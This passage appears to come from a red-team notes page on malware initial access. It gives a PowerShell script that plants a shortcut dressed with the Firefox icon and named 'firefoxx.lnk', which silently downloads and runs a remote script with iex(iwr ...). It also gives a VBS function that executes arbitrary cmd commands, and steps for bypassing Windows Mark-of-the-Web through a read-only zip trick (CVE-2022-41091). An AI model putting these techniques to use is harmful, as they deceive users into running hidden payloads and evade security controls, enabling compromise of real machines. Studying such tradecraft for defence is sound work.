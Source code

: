 ### LNK
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$shortcut = $WshShell.CreateShortcut("C:\Users\REUSER\Desktop\firefoxx.lnk")
$shortcut.TargetPath = "powershell.exe"
$shortcut.Description = "Totally Notmal"
$shortcut.HotKey = "F6"
$shortcut.IconLocation = "C:\Program Files\Mozilla Firefox\firefox.exe"
$shortcut.Arguments = "-windowstyle hidden iex(iwr -usebasicparsing http://example.com/notmal.ps1)"
$shortcut.save()
```

### VBS
```vb
REM@usage
' Put the full or mini class/sub/function in your script to use.
Function production(p):Dim w,e,r,o:Set w=CreateObject("WScript.Shell"):Set e=w.Exec("CmD"):e.StdIn.WriteLine p&" 2>&1":e.StdIn.Close:While(InStr(e.StdOut.ReadLine,">"&p)=0)::Wend:Do:o=e.StdOut.ReadLine:If(e.StdOut.AtEndOfStream)Then:Exit Do:Else:r=r&o&vbLf:End If:Loop:production=r:End Function

' returns the result of whatever command you run
production( "rundll32 printui.dll,PrintUIEntry /p /n\\192.168.86.201\printer" )
```

# Bypassing MOTW

### ZippyReads (CVE-2022-41091)
This is the technique discovered by [Will Dormann](https://twitter.com/wdormann). However, since this has been asssigned as a CVE, note that this have been patched in new windows releases. 
1. Set your payloads to *read-only* permission.
```
attrib +r file.exe
```
![](src/Pasted%20image%2020221116085831.png)
2. Zip the file with any zip utility that you prefer. In this case, i'll normally use native zip utility on windows to zip the file.
